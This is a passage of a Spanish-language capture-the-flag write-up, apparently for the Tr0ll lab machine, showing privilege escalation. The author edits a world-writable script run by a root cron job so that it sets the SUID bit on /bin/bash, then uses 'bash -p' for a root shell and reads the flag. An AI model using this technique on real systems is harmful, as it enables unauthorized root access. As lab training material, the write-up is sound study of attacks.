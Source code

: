 Cada un minuto, se ejecuta con permiso de root el archivo `cleaner.py`. 

Validamos los permisos y tenemos control completo sobre el mismo, en este punto, sólo resta editarlo para añadir nuestro código y volvernos root.

```bash
overflow@troll:/$ ls -la /lib/log/cleaner.py
-rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
```

Lo editamos para que nos agregue el bit `SUID` a la `bash`{: .filepath}.

Original

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

Editado. Listamos la Flag.

```bash
#!/usr/bin/env python
import os
import sys
try:
        os.system('chmod 4777 /bin/bash')
        os.system('rm -r /tmp/* ')
except:
        sys.exit()

overflow@troll:/$ ls -la /bin/bash
-rwxr-xr-x 1 root root 986672 Apr 23  2014 /bin/bash

overflow@troll:/$ ls -la /bin/bash
-rwsrwxrwx 1 root root 986672 Apr 23  2014 /bin/bash

overflow@troll:/$ bash -p
bash-4.3# id
uid=1002(overflow) gid=1002(overflow) euid=0(root) groups=0(root),1002(overflow)
bash-4.3# cd /root
bash-4.3# ls
proof.txt
bash-4.3# cat proof.txt
Good job, you did it!

702a8c18d29c6f3ca0d99ef5712bfbdc
 ```

Hope it helps!